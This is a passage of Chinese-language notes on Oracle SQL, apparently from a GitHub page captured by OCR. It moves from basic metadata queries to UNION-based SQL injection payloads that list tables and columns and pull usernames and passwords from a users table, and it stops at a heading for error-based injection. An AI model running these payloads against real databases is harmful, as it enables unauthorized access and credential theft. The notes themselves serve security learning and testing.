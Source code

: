 ```SQL> alter table users modify email char(40);```
获取当前用户所拥有权限下的所有数据库
```SQL> select distinct owner,table_name from all_tables;```

获取指定表的字段（注意这里的table_name全部大写）
```SQL> select column_name from all_tab_columns where table_name='USERS';```


Oracle提供了一个名为的内置命名空间USERENV，用于描述当前会话。

以下语句返回登录到数据库的用户的名称：

```sql
SQL> select SYS_CONTEXT('USERENV','SESSION_USER') from dual;SYS_CONTEXT('USERENV','SESSION_USER')


SQLISQL> select SYS_CONTEXT('USERENV','AUTHENTICATED_IDENTITY') from dual;SYS_CONTEXT('USERENV','AUTHENTICATED_IDENTITY')

```

获取当前数据库名
```SQL> select * from global_name;```

说明：GLOBAL_NAME 包含一行，显示当前数据库的全局名称。

实现mysql的group_concat:
```SQL> select listagg(column_name,'~') within group (order by column_name) from user_tab_columns;```

```LISTAGG(COLUMN_NAME,'~')WITHIN GROUP(ORDERBY COLUMN_NAME)```

说明：LISTAGG 对 ORDER BY 子句中指定的每个组内的数据进行排序，然后合并度量列的值。measure_expr可以是任何表达。度量列中的空值将被忽略。


USER_TABLES描述当前用户拥有的关系。


获取表名：
```sql
SQL> select * from users where id=2 union select null,null,(select listagg(table_name,'~') within group(order by 1) from all_tables where owner='SQLI') from dual;
```

获取指定表的字段名：
```sql
SQL> select * from users where id=2 union select null,null,(select listagg(column_name,':') within group(order by 1) from all_tab_columns where table_name='USERS') from dual;
```

获取指定字段内容:
```sql
SQL> select * from users where id=2 union select null,null,(select listagg(uname||'&'||pwd,':') within group(order by 1) from users where rownum=1) from dual;
```

#### 报错注入
